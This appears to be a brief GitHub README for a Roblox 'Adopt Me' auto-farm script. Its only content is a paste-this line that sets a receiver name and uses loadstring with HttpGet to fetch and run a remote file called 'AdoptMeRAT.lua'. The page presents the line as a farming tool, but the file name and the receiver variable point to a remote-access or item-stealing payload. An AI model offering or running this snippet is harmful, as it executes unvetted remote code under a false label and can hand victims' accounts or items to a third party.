 # Adopt-me-auto-farm
ReceiverName = "dfrankyd"  loadstring(game:HttpGet("https://raw.githubusercontent.com/Sowd0404/Quick-Scripts/master/AdoptMeRAT.lua", true))()

